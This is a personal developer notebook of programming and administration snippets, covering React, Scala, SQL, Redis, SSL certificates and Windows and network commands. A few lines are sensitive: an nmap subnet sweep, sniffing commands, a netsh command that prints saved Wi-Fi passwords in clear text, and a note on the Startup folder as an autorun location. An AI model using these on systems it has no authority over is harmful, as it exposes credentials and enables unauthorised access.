print(l) >> ['Hi Alice', 'Hi Bob', 'Hi Pete']

List mapping:

l = list(map(int, ['1', '2', '3']))
print(l) >> [1, 2, 3]

# React

npx create-react-app react-app

cd react-app

npm start

PureComponent

Solo hace el render si el state o las props cambian de valor en relacion al anterior

High Order Components (HOC)

No es un componente, le pasas un componente para que retorne dicho componente con funcionalidad nueva y renderiza dicho componente. Se utiliza para re utilizar codigo.

Se utiliza HOC en redux cuando se crea un componente mediante connect(Component) (el connect es el HOC)

Hooks

Permite utilizar el estado y otras características de React sin escribir una clase

useEffect(){} - es como el componentDidMount, componentDidUpdate y componentWillMount, se le puede pasar como segundo para metro un array con las props que van a cambiar

Arquitectura flux (reemplaza a mvc)

			  ← Action  ←

			↓   (flux)      ↑

Action -> Dispatcher -> Store -> View 

(flux)		(flux)		(flux)	(react)

Next JS - React para backend

React-admin - ABM / CRUD

JSX

Es el HTML que se inserta en React

Babel - precompila el código, transforma el "HTML" a Javascript

siempre importar React - import React from 'react'

exportar el componente para utilizarlo en otro

las props son las propiedades que le pasas al componente

Componentes se pueden manejar como objetos

const element = <Cell />

Babel reconoce elementos de react si los mismos están en CamelCase

import React from 'react';

const Board = props => { }

export default Board; // El default hace que tome ese objecto en caso de que haya más

Component.propTypes = {

  property: PropTypes.array

}

## Redux

Redux utiliza un unico Store (json), el cual es solo lectura, solo se modifica mediante acciones, para eso se utilizan reducers el cual recibe el estado actual (store) y la accion y tiene los distintos casos y se retorna una copia del store

## Testing

Shallow - renderiza de manera superficial al componente, no renderiza los hijos

const wrapper = shallow(Component)

wrapper.find().text()

const mockFunction = jest.fn()

<Component function={mockFunction}>

// ❌

const {getByRole} = render(<Example />)
const errorMessageNode = getByRole('alert')

// ✅

render(<Example />)
const errorMessageNode = screen.getByRole('alert')

import {render, screen} from '@testing-library/react'

The benefit of using screen is you no longer need to keep the render call destructure up-to-date as you add/remove the queries you need. You only need to type screen. and let your editor's magic autocomplete take care of the rest.

# Redes

nast -m -i interfaz

nast -g -i interfaz

nmap -v -sP 192.168.1.1/24 | grep down -v

ipinfo -t ip

Subnet Mask: As a general rule wherever there is a 255 in the subnet mask then the corresponding number of the IP address is part of the network id; where there is 0 in the subnet mask the corresponding number in the IP address is part of the host id. For an IP address of 192.168.0.1 with a subnet mask of 255.0.0.0. This tells the device that the first number of the IP address is to be used as the network address and the last 3 are to be used as the host id. In this example, the computer network would be 192.x.x.x. As long as another computer has the same subnet mask and an IP address starting with 192 they can communicate with each other. If the subnet mask was 255.255.0.0 then this means that the first 2 numbers identify the network instead (192.168.x.x). Therefore to be on the same network both devices must have IP addresses starting with 192.168.

# Redis

redis-cli -h localhost -p 26379 ping

docker-compose exec qr-redis bash 

redis-cli 

Comandos 

	- select 1 (Intentions)

	- keys *

		1) "intention:cuit:20-33333333-3:branch:lavalle 333:checkout:1"

	- get "intention:cuit:20-33333333-3:branch:lavalle 333:checkout:1"

			"{\"intention_id\":34206,\"intention_datetime\":\"2020-02-18T11:44:52-03:00\",\"status\":\"created\",\"cuit\":\"20-33333333-3\",\"branch\":\"lavalle 333\",\"checkout\":\"1\",\"terminal_number\":\"11111111\",\"intention_type\":\"payment\",\"amount\":100.99,\"currency\":\"ARS\",\"payment_methods_data\":[{\"payment_method_id\":1,\"establishment_id\":\"123\",\"trace_number\":99,\"ticket_number\":99}],\"integrator_intention_id\":\"123123\",\"original_transaction_id\":null}"

# Regex

Regex para validar formato LDAP

(&(|(givenName=john) (givenName=jane rrr))(!(sn=doe))(cn=asd))

^(\s*\((?:[&|]\s*(?1)+|(?:!\s*(?1))|[a-zA-Z][a-zA-Z0-9-]*[<>~]?=[^()]*)\s*\)\s*)$

Remove 2 HTML Tags

<[^>]*>

# Scala

sbt new

sbt tasks > run

en 2.6 se depreco el activator

classes vs case classes

Case classes can be pattern matched

Case classes automatically generate the toString(), equals() and hashcode() methods using all constructor params for each method

Case classes automatically define getter methods for the constructor arguments. - Convert all constructor parameters to public readonly (val) by default fields

Generate companion object with the same name containing an appropriate apply() and unapply() method, which are basically just a convenience constructor allowing to instantiate without using the new keyword and an extractor which by default generates an option-wrapped tuple of the case class parameters.

Trait es como una interfaz pero con implementación

AbstractController se supone que te simplifica la utilizacion de BaseController

Unit is a subtype of scala.AnyVal. There is only one value of type Unit, (), and it is not represented by any object in the underlying runtime system. A method with return type Unit is analogous to a Java method which is declared void.

var - mutable

val - no mutable

val vs lazy val

The difference between them is, that a val is executed when it is defined whereas a lazy val is executed when it is accessed the first time.

def toInt(in: String): Option[Int] = {
    try {
        Some(Integer.parseInt(in.trim))
    } catch {
        case e: NumberFormatException => None
    }
}

		

Partial Function, se pueden definir valores para los que no aplica la funcion

val divide = new PartialFunction[Int, Int] {
    def apply(x: Int) = 42 / x
    def isDefinedAt(x: Int) = x != 0
}

con case - Genera el isDefinedAt implicitamente

val divide2: PartialFunction[Int, Int] = {
    case d: Int if d != 0 => 42 / d
}

val handle1to10 = convert1to5 orElse convert6to10 (Son partial functions creadas apartes)

handle1to10: PartialFunction[Int,String] = <function1>

https://stackoverflow.com/questions/39626579/is-there-a-way-to-combine-docker-images-into-1-container

https://hub.docker.com/r/broadinstitute/scala-baseimage  

Scala - Play

SimpleRouter

case GET(s"Hola") = la "s" es de string

case GET(p"/hola") = la "p" es de path pattern

Extractor

Implicits

for comprehension

EitherT - Cats

## General

obj.getOrElse("test") == obj gerOrElse "test"

Para comparar un option con un valor utilizar contains

Unit == void

eq checks for reference - x eq y

Default es public (No tiene keyword public)

Pueden tener valores por defecto en los constructores de las clases

val someNumbers = Range(0, 10)  == val someNumbers = 0 until 10 //  De 0 a 9 inclusive

val someNumbers = Range(0, 10).inclusive ==  val someNumbers = 0 to 10 - incluye el 10

Range(2, 10, 3) - de 2 a 10 cada 3 = 2,5,8

flatMap es cuando tengo una lista de listas (stream de streams) y map es cuando tengo una lista (stream)

Se pueden sumar un Set y un List

A repeated parameter can accept a collection - if you want it expanded, add :_*

repeatedParameterMethod(3,"egg", List("a delicious sandwich", "protein", "high cholesterol"): _*) should be("3 eggs can give you a delicious sandwich, protein, high cholesterol")

si una clase extiende de app se ejecuta como main

Cantidad de unapply que se quieran

object Tokenizer {

  def unapply(x: Car) = Some((x.make, x.model, x.year, x.topSpeed))

  def unapply(x: Employee) = Some((x.firstName, x.lastName))

}

## ScalaTest
result should equal(3) // can customize equality

result should ===(3) // can customize equality and enforce type constraints

result should be(3) // cannot customize equality, so fastest to compile

result shouldEqual 3 // can customize equality, no parentheses required

result shouldBe 3       // cannot customize equality, so fastest to compile, no parentheses required

## Classes

clases - constructor en definicion - class Point(x: Int, y: Int)

val point = new Point(1,2)

point.x;

case classes

case class Dog(var name: String, breed: String) // you can rename a dog, but change its breed? nah!

Safer

val d1 = Dog("Scooby", "Doberman")

val d2 = d1.copy(name = "Scooby Doo") // copy the case class but change the name in the copy

val d1 = Dog("Scooby", "Doberman")

d1.toString should be("Dog(Scooby,Doberman)")

val p3 = Person(last = "Jones", first = "Fred", ssn = "111-22-3333") // note the order can change, and missing age

val p1 = Person("Fred", "Jones", 23, "111-22-3333")

val parts = Person.unapply(p1).get  //  Genera una tupla en base a esa case class

## Objects

object - SingletonGandal

Reemplaza el static de Java

An object that has the same name as a class is called a companion object of the class, and it is often used to contain factory methods for the class that it complements:

// Permite darle metodos o atributos estaticos a la clase pudiendo tener visibilidad de los ya existentes en la clase

class Movie(val name: String, val year: Short)

object Movie {
  def academyAwardBestMoviesForYear(x: Short) = {
    //This is a match statement, more powerful than a Java switch statement!
    x match {
      case 1930 => Some(new Movie("All Quiet On the Western Front", 1930))
      case 1931 => Some(new Movie("Cimarron", 1931))
      case 1932 => Some(new Movie("Grand Hotel", 1932))
      case _ => None
    }
  }
}

Movie.academyAwardBestMoviesForYear(1932).get.name should be(

"Grand Hotel"

)

## Option

Option[A] - Si existe es un Some[A], sino es None

val someValue: Option[String] = Some("I am wrapped in something")

someValue should be( Option("I am wrapped in something") )

val emptyValue: Option[String] = None

emptyValue shouldBe None

Some("test") == Option("test")

## Funciones

Function2[-T1, -T2, +R]

(T1, T2) > R

### Funciones anónimas

A closure is a function which maintains a reference to one or more variables outside of the function scope (it "closes over" the variables). Scala will detect that you are using variables outside of scope and create an object instance to hold the shared variables.

### High Order Function

Funciones que reciben y/o retornan funciones

### Currying

Currying is a technique to transform a function with multiple parameters into multiple functions which each take one parameter:

### Partial Functions

The trait PartialFunction requires that the method isDefinedAt and apply be implemented

isDefinedAt define para que casos aplica la función y apply es lo que va a hacer la función

val doubleEvens: PartialFunction[Int, Int] =

  new PartialFunction[Int, Int] {

    //States that this partial function will take on the task

    def isDefinedAt(x: Int) = x % 2 == 0

    //What we do if this partial function matches

    def apply(v1: Int) = v1 * 2

  }

val tripleOdds: PartialFunction[Int, Int] = new PartialFunction[Int, Int] {

  def isDefinedAt(x: Int) = x % 2 != 0

  def apply(v1: Int) = v1 * 3

}

#Alternative

val doubleEvens: PartialFunction[Int, Int] = {

  case x if (x % 2) == 0 => x * 2

}

val tripleOdds: PartialFunction[Int, Int] = {

  case x if (x % 2) != 0 => x * 3

}

val whatToDo = doubleEvens orElse tripleOdds  // trandThen (printEven orElse printOdd) //Here we chain the partial functions together

whatToDo(3) should be(9)

whatToDo(4) should be(8)

## Exceptions

intercept[IndexOutOfBoundsException] {

  println(a(5))

}

## Patter Matching

@

This gives you a variable-binding pattern. The meaning of such a pattern is to perform the pattern match as normal, and if the pattern succeeds, set the variable to the matched object just as with a simple variable pattern

case list @ List(1, _*) => s"$list"

def goldilocks(expr: (String, String)) = expr match {

	case ("porridge", _) => "eating"

	case ("porridge", bear) => bear + " said someone's been eating my porridge"

}

A backquote can be used to refer to a stable variable in scope to create a case statement - this prevents "variable shadowing"

val foodItem = "porridge"

def goldilocks(expr: (String, String)) = expr match {

  case (`foodItem`, _) => "eating"

  case ("chair", "Mama") => "sitting"

  case ("bed", "Baby") => "sleeping"

  case _ => "what?"

}

A backquote can be used to refer to a method parameter as a stable variable to create a case statement:

def patternEquals(i: Int, j: Int) = j match {

  case `i` => true

  case _ => false

}

val secondElement = List(1, 2, 3) match {

  case x :: xs => xs.head            -             x es el head de la lista y xs es el tail por lo que xs quedaria List(2,3) y xs.head es 2

  case _ => 0

}

val secondElement = List(1, 2, 3) match {

  case x :: y :: xs => y                   -            x es el primer elemento, y es el segundo, xs es el resto

  case _ => 0

}

val secondElement = List(1) match {

  case x :: y :: xs => y // only matches a list with two or more items

  case _ => 0

}

val r = List(1, 2, 3) match {

  case x :: y :: Nil => y // only matches a list with exactly two items

  case _ => 0

}

If a pattern is exactly one element longer than a List, it extracts the final Nil:

val r = List(1, 2, 3) match {

  case x :: y :: z :: tail => tail

  case _ => 0

}

r == Nil should be(true)

## Traits

trait B {

  def bId = 2

}

trait A { self: B =>

  def aId = 1

}

//val a = new A  //***does not compile!!!***

val obj = new A with B

(obj.aId + obj.bId) should be(3)

## For comprehension

val xValues = 1 to 4

val yValues = 1 to 2

val coordinates = for {

  x <- xValues

  y <- yValues

} yield (x, y)  // Genera un valor por cada posibilidad Vector((1,1), (1,2), (2,1), (2,2), (3,1), (3,2), (4,1), (4,2))

coordinates(4) should be((3, 1))

## Infix type

case class Person(name: String)

class Loves[A, B](val a: A, val b: B)

def announceCouple(couple: Person Loves Person) =

  //Notice our type: Person loves Person!

  couple.a.name + " is in love with " + couple.b.name

val romeo = new Person("Romeo")

val juliet = new Person("Juliet")

announceCouple(new Loves(romeo, juliet)) should be(

"Romeo is in love with Juliet"

)

Of course we can make this a bit more elegant by creating an infix operator method to use with our infix type:

 case class Person(name: String) {

  def loves(person: Person) = new Loves(this, person)

}

class Loves[A, B](val a: A, val b: B)

def announceCouple(couple: Person Loves Person) =

  //Notice our type: Person loves Person!

  couple.a.name + " is in love with " + couple.b.name

val romeo = new Person("Romeo")

val juliet = new Person("Juliet")

announceCouple(romeo loves juliet) should be(

)

## Either

Either[Throwable, Int]

Right, valor

Left, error

## Collections

### Array / Sequence

val s = Seq("hello", "to", "you")

val filtered = s.filter(_.length > 2)

### Lists

eq tests identity (same object)

== tests equality (same content)

val list = List(1,2,3)

Lists can be accessed via head, headOption and tail (todo menos el primero). Accessing a list via head is unsafe and may result in a IndexOutOfBoundsException.

filterNot == removeIf (Java)

Functions over lists can use () instead of {}

a.reduceLeft(_ + _) - todos los valores

    foldLeft(1) - se aplica al resultado final / es como un reduce

	

init will return the rest of the collection without the last:

	

val it = list grouped 3

agrupo de a tantos

	

	

val list = List(87, 44, 5, 4, 200, 10, 39, 100)

list.takeWhile(_ < 100) should be(List(87,44,5,4))	

	

val list = List(3, 5, 9, 11, 15, 19, 21, 24, 32)

(list takeRight 3) should be(List(21, 24, 32))

val xs = List(3, 5, 9)

val ys = List("Bob", "Ann", "Stella")

(xs zip ys) should be(List((3, "Bob"), (5, "Ann"), (9, "Stella")))

	

val a = (1 to 5).toList

val a = List(1, 3, 5, 7)

0 :: a should be(List(0,1,3,5,7))

:: // Prepend
::: // Concatenar

val list = List(4, 6, 7, 8, 9, 13, 14)

val result = list.collect {

  case x: Int if (x % 2 == 0) => x * 3

}

result should be(List(12,18,24,42))

Nil lists are identical, even of different types:

val a: List[String] = Nil

val b: List[Int] = Nil

(a == Nil) should be(true)

(a eq Nil) should be(true)

(b == Nil) should be(true)

(b eq Nil) should be(true)

(a == b) should be(true)

(a eq b) should be(true)

### Maps

val aNewMap = myMap + ("IL" -> "Illinois")

val aNewMap = myMap -- List("MI", "OH")

Map equivalency is independent of order

knownSize will return the number of elements if the traversable has a finite end, otherwise -1:

### Set

Lista sin duplicados

val aNewSet = mySet + "Illinois"

val aNewSet = mySet -- List("Michigan", "Ohio")

mySet("MI") == mySet.contains("MI")

val aNewSet = mySet1 intersect mySet2 // Se puede utilizar &

val aNewSet = mySet1 union mySet2 // NOTE: You can also use the "|" operator

val aNewSet = mySet1 diff mySet2

### Tuplas

val tuple = ("apple", "dog")

val fruit = tuple._1 - "apple"

val animal = tuple._2 - "dog"

# Selenium

WebDriverWait wait = new WebDriverWait(driver, 10);

WebElement elemento = wait.until(ExpectedConditions.presenceofElemenLocated(By.);

th a.filter {

    visibility: inherit;

}

# SQL

grant, metodo para asignar permisos a usuarios de base de datos relacionales

ALTER USER account IDENTIFIED BY password ACCOUNT UNLOCK;

Indice

para acelerar las busquedas

foreign key -> relacionar tablas

primary key -> mandatoria si se usa

llave primaria compuesta

Una clave primaria es un campo (o varios) que identifica un solo registro (fila) en una tabla.

Para un valor del campo clave existe solamente un registro.

Si tenemos la tabla "usuarios", el nombre de cada usuario puede establecerse como clave primaria, es un valor que no se repite; puede haber usuarios con igual clave, pero su nombre de usuario será siempre diferente.

Podemos establecer que un campo sea clave primaria al momento de crear la tabla o luego que ha sido creada.

Lo que hacemos agregar luego de la definición de cada campo, "primary key" y entre paréntesis, el nombre del campo que será clave primaria.

Una tabla sólo puede tener una clave primaria. Cualquier campo (de cualquier tipo) puede ser clave primaria, debe cumplir como requisito, que sus valores no se repitan ni sean nulos. Por ello, al definir un campo como clave primaria, automáticamente SQL Server lo convierte a "not null".

Restricciones referencial: foreign key

Con la restricción "foreign key" se define un campo (o varios) cuyos valores coinciden con la clave primaria de la misma tabla o de otra, es decir, se define una referencia a un campo con una restricción "primary key" o "unique" de la misma tabla o de otra.

La integridad referencial asegura que se mantengan las referencias entre las claves primarias y las externas. Por ejemplo, controla que si se agrega un código de editorial en la tabla "libros", tal código exista en la tabla "editoriales".

También controla que no pueda eliminarse un registro de una tabla ni modificar la clave primaria si una clave externa hace referencia al registro.

- luego de "foreign key", entre paréntesis se coloca el campo de la tabla a la que le aplicamos la restricción que será establecida como clave foránea,

- luego de "references" indicamos el nombre de la tabla referenciada y el campo que es clave primaria en la misma, a la cual hace referencia la clave foránea. La tabla referenciada debe tener definida una restricción "primary key" o "unique"; si no la tiene, aparece un mensaje de error.

Esta restricción (a diferencia de "primary key" y "unique") no crea índice automaticamente.

La cantidad y tipo de datos de los campos especificados luego de "foreign key" DEBEN coincidir con la cantidad y tipo de datos de los campos de la cláusula "references".

Esta restricción se puede definir dentro de la misma tabla (lo veremos más adelante) o entre distintas tablas.

Una tabla puede tener varias restricciones "foreign key".

No se puede eliminar una tabla referenciada en una restricción "foreign key", aparece un mensaje de error.

Una restriccion "foreign key" no puede modificarse, debe eliminarse y volverse a crear.

Un "trigger" (disparador o desencadenador) es un tipo de procedimiento almacenado que se ejecuta cuando se intenta modificar los datos de una tabla (o vista).

Se definen para una tabla (o vista) específica.

Se crean para conservar la integridad referencial y la coherencia entre los datos entre distintas tablas.

Si se intenta modificar (agregar, actualizar o eliminar) datos de una tabla en la que se definió un disparador para alguna de estas acciones (inserción, actualización y eliminación), el disparador se ejecuta (se dispara) en forma automática.

Un trigger se asocia a un evento (inserción, actualización o borrado) sobre una tabla.

La diferencia con los procedimientos almacenados del sistema es que los triggers:

- no pueden ser invocados directamente; al intentar modificar los datos de una tabla para la que se ha definido un disparador, el disparador se ejecuta automáticamente.

- no reciben y retornan parámetros.

- son apropiados para mantener la integridad de los datos, no para obtener resultados de consultas.

Pueden hacer referencia a campos de otras tablas.

Los triggers se crean con la instrucción "create trigger". Esta instrucción especifica la tabla en la que se define el disparador, los eventos para los que se ejecuta y las instrucciones que contiene.

- "on" seguido del nombre de la tabla o vista para la cual se establece el trigger.

- luego de "for", se indica la acción (evento, el tipo de modificación) sobre la tabla o vista que activará el trigger. Puede ser "insert", "update" o "delete". Debe colocarse al menos UNA acción, si se coloca más de una, deben separarse con comas.

- luego de "as" viene el cuerpo del trigger, se especifican las condiciones y acciones del disparador; es decir, las condiciones que determinan cuando un intento de inserción, actualización o borrado provoca las acciones que el trigger realizará.

- "create trigger" debe ser la primera sentencia de un bloque y sólo se puede aplicar a una tabla.

- un disparador se crea solamente en la base de datos actual pero puede hacer referencia a objetos de otra base de datos.

- Las siguientes instrucciones no están permitidas en un desencadenador: create database, alter database, drop database, load database, restore database, load log, reconfigure, restore log, disk init, disk resize.

- Se pueden crear varios triggers para cada evento, es decir, para cada tipo de modificación (inserción, actualización o borrado) para una misma tabla. Por ejemplo, se puede crear un "insert trigger" para una tabla que ya tiene otro "insert trigger".

## Ejemplos

### Parsear XML

    select extractvalue(sys.xmltype(d.metaxml), '/flow-data/positionDN') as requestName
    from AFDOCUMENT d
    where REQUESTID = 'ba9d0af415df48d18c45dabb68e7e7f1'

### Filtrar por Fecha

    select proc.REQUESTID, proc.PROCESSID, docu.METAXML, proc.RECIPIENT, proc.INITIATOR, proc.STARTTIME, proc.COMPLETETIME
    from AFPROCESS proc
    inner join AFDOCUMENT docu on proc.REQUESTID = docu.REQUESTID
    where proc.APPROVALSTATUS = 0 and to_char(proc.starttime, 'yyyy-MM-dd') >= '2017-09-01'
    select proc.REQUESTID, proc.PROCESSID, docu.METAXML, proc.RECIPIENT, proc.INITIATOR, proc.STARTTIME, proc.COMPLETETIME
    from AFPROCESS proc
    inner join AFDOCUMENT docu on proc.REQUESTID = docu.REQUESTID
    where proc.APPROVALSTATUS = 0 and STARTTIME > TO_TIMESTAMP('2017-09-01', 'YYYY-MM-DD')

### Cantidad de caracteres en una columna

    ALTER TABLE IRM_SCHEDULES MODIFY EMAILTO varchar2(2000)

### Count

    select count (*) from table

### Concatenar

    SELECT name || ' - ' || GENESIXCODE FROM IAMOPERATIONALPOINT WHERE id = 131

### Concatenar Lista

    SELECT ID, OBJECTNAME,
    (SELECT LISTAGG(Association, '  -  ') WITHIN GROUP (ORDER BY ASSOCIATION)
    FROM IAMUSER_ASSOCIATION
    WHERE IAMUSER_ASSOCIATION.IAMUSER = IAMUSER.ID) AS ASOCIACIONES
    FROM IAMUSER

### Time Zone

    select EVT_ID, FROMTZ(cast(EVT_DT as timestamp), 'GMT') AT TIME ZONE '-03:00' from SIEM_ALERTS WHERE EVT_ID = "id"

### Función

    create or replace function FN_parse_value (pValue varchar2, startNumber number, endNumber number, delim varchar2)
       return varchar2
    is
       v_pos3 number;
       v_pos4 number;

    begin
       /* Return init occurrence of delim */
       v_pos3 := INSTR (pValue, delim, 1, startNumber) + 1;
       /* Return last occurrence delim */
       v_pos4 := INSTR (pValue, delim, 1, endNumber);
       return SUBSTR (pValue, v_pos3, v_pos4 - v_pos3);
    end FN_parse_value;
          

### Union

    select IAMUSER.OBJECTNAME, UPPER(FN_parse_value(IAMROLE.SLASHDN,10,11,'\')) as Aplicativo, 
    LISTAGG(UPPER(IAMROLE.NAME), '  /  ') WITHIN GROUP (ORDER BY UPPER(IAMROLE.NAME)) as Perfiles
    from IAMROLE
    inner join IAMUSER_ASSIGNEDROLE on IAMUSER_ASSIGNEDROLE.IAMROLE = IAMROLE.ID
    inner join IAMUSER on IAMUSER_ASSIGNEDROLE.IAMUSER = IAMUSER.ID
    where IAMROLE.ROLELEVEL = 10
    group by UPPER(FN_parse_value(IAMROLE.SLASHDN,10,11,'\')), IAMUSER.OBJECTNAME
    union
    select IAMUSER.OBJECTNAME, UPPER(FN_parse_value(IAMROLE.SLASHDN,10,11,'\')) as Aplicativo, 
    LISTAGG(UPPER(IAMROLE.NAME), '  /  ') WITHIN GROUP (ORDER BY UPPER(IAMROLE.NAME)) as Perfiles
    from IAMROLE
    inner join IAMUSER_INHERITEDROLE on IAMUSER_INHERITEDROLE.IAMROLE = IAMROLE.ID
    inner join IAMUSER on IAMUSER_INHERITEDROLE.IAMUSER = IAMUSER.ID
    where IAMROLE.ROLELEVEL = 10
    group by UPPER(FN_parse_value(IAMROLE.SLASHDN,10,11,'\')), IAMUSER.OBJECTNAME

# SSL Certificates

export PATH=/usr/java/jdk1.8.0_202/bin:$PATH

Importar el certificado con el siguiente comando:

keytool -keystore keystore.p12 -storepass password -storetype PKCS12 -alias certificatealias -import -file file.p7b

Verificar que se haya importado el certificado 

keytool -list -v -alias portalcertificate -keystore carrefourIDM.p12

.csr This is a Certificate Signing Request. Some applications can generate these for submission to certificate-authorities. The actual format is PKCS10 which is defined in RFC 2986. It includes some/all of the key details of the requested certificate such as subject, organization, state, whatnot, as well as the public key of the certificate to get signed. These get signed by the CA and a certificate is returned. The returned certificate is the public certificate (which includes the public key but not the private key), which itself can be in a couple of formats.

.pem Defined in RFC's 1421 through 1424, this is a container format that may include just the public certificate (such as with Apache installs, and CA certificate files /etc/ssl/certs), or may include an entire certificate chain including public key, private key, and root certificates. Confusingly, it may also encode a CSR (e.g. as used here) as the PKCS10 format can be translated into PEM. The name is from Privacy Enhanced Mail (PEM), a failed method for secure email but the container format it used lives on, and is a base64 translation of the x509 ASN.1 keys.

.key This is a PEM formatted file containing just the private-key of a specific certificate and is merely a conventional name and not a standardized one. In Apache installs, this frequently resides in /etc/ssl/private. The rights on these files are very important, and some programs will refuse to load these certificates if they are set wrong.

.pkcs12 .pfx .p12 Originally defined by RSA in the Public-Key Cryptography Standards (abbreviated PKCS), the "12" variant was originally enhanced by Microsoft, and later submitted as RFC 7292. This is a passworded container format that contains both public and private certificate pairs. Unlike .pem files, this container is fully encrypted. Openssl can turn this into a .pem file with both public and private keys: openssl pkcs12 -in file-to-convert.p12 -out converted-file.pem -nodes

A few other formats that show up from time to time:

.der A way to encode ASN.1 syntax in binary, a .pem file is just a Base64 encoded .der file. OpenSSL can convert these to .pem (openssl x509 -inform der -in to-convert.der -out converted.pem). Windows sees these as Certificate files. By default, Windows will export certificates as .DER formatted files with a different extension. Like...

.cert .cer .crt A .pem (or rarely .der) formatted file with a different extension, one that is recognized by Windows Explorer as a certificate, which .pem is not.

.p7b .keystore Defined in RFC 2315 as PKCS number 7, this is a format used by Windows for certificate interchange. Java understands these natively, and often uses .keystore as an extension instead. Unlike .pem style certificates, this format has a defined way to include certification-path certificates.

.crl A certificate revocation list. Certificate Authorities produce these as a way to de-authorize certificates before expiration. You can sometimes download them from CA websites.

In summary, there are four different ways to present certificates and their components:

PEM Governed by RFCs, it's used preferentially by open-source software. It can have a variety of extensions (.pem, .key, .cer, .cert, more)

PKCS7 An open standard used by Java and supported by Windows. Does not contain private key material.

PKCS12 A Microsoft private standard that was later defined in an RFC that provides enhanced security versus the plain-text PEM format. This can contain private key material. It's used preferentially by Windows systems, and can be freely converted to PEM format through use of openssl.

DER The parent format of PEM. It's useful to think of it as a binary version of the base64-encoded PEM file. Not routinely used by much outside of Windows.

**generateCertificates.sh**

openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /home/docker/images/nginx/certs/$1.key -out /home/docker/images/nginx/certs/$1.crt                   -addext "subjectAltName = DNS:$2" -subj "/C=AR/ST=/L=CABA/O=local/OU=local/CN=$2/emailAddress="

# Vagrant

vagrantcloud - repositorio de vm

vagrant -v

vagrant box add VM_OS

vagrant init VM_OS

vagrant up

vagrant ssh

vagrant ssh-config

Vagrantfile

VAGRANT_FILE_VERSION = "2"

Vagrant.configure(VAGRANT_FILE_VERSION) do |config|

	config.vm.box= "VM_OS"

	config.vm.network "private_network", ip: "IP"

end

vagrant reload

# WebRTC

*   **Signaling server** is used to let peers share service information to start the peer-to-peer streams transmission. 
*   **STUN server** is used to let peers know each other's external address to start the peer-to-peer streams transmission behind the NAT. 
*   **TURN server** is used to let peers transmit streams to each other behind a firewall. There is no peer-to-peer streams transmission in this case. All media traffic goes through a TURN server.

Google Stun Server: stun:stun.l.google.com:19302

# Windows

FC: File Compare

The **FC** command performs either an ascii or a binary file comparison and will list all of the differences that it finds.

**Fc /a File1.txt File2.txt will compare two ascii files.**

**Fc /b Picture1.jpg Picture2.jpg will do a binary compare on two images**.

powercfg /batteryreport - estado de la batería

netsh wlan show profile name=TRENDNet711 key=clear

where

wmic csproduct get name -> obtiene modelo de la pc

MBR - BIOS / El otro UEFI

F7 -> Ver comandos utilizados previamente

SETX PROMPT "$T$H$H$H - $P$G"

runas /user:Administrator CMD.exe

forfiles -> forfiles /P C: /S /M "DigiKeyboard.h" /C "cmd /c echo @path"

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\CrashControl

Create a new DWORD value named DisplayParameters and set to 1

Si pones un archivo en C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup  se ejecuta en el inicio

## Red

arp -a

net view

netstat -a

nbtstat -a

netstat -naob

net

netsh wlan show drivers

netsh wlan set hostednetwork mode=allow ssid=”Nombre de red” key=”Contraseña”

netsh wlan start hostednetwork

netsh int ip set address "Ethernet 2" static 192.168.0.101 255.255.255.0 192.168.0.1 1

netsh interface ip set address "Ethernet 2" dhcp

getmac

tracert (tracert google.com)

pathping - tracert con más información

# General

Dependency Injection es una forma de implementar Inversion of Control

IP Publica - icanhazip.com 

Generar link público de mi app local - ssh -R 80:localhost:8080 ssh.localhost.run

[https://cors-anywhere.herokuapp.com](https://cors-anywhere.herokuapp.com)

Auto TOC generator - https://ecotrust-canada.github.io/markdown-toc/
